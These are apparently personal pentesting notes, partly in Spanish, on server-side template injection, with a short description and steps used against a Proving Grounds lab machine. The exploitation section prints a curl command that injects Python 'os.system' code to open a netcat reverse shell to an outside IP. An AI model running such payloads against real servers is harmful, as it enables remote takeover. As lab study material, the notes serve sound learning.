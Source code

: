 
## DESCRIPTION


A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server.

![[Pasted image 20230627204002.png]]

#### Mas información
* https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection


## EXPLOITATION

### OPTION 1: PYTHON
1. Lo primero es identificarla en este ejemplo había que utilizar POST

```
curl -X POST http://192.168.199.117:50000/verify -d 'code=2*2'
```

![[Pasted image 20230627203946.png]]

NO FUNCIONABA CON GET:
![[Pasted image 20230627204015.png]]

2. Hay que identificar el lenguaje de programacion para usar una RCE o otra en este caso es PYTHON:

```
curl -X POST http://192.168.199.117:50000/verify -d "code=os.system('nc -e /bin/bash 192.168.45.195 445')"
```

## MACHINES

* Hack The Box: 
* PG: Hetemit

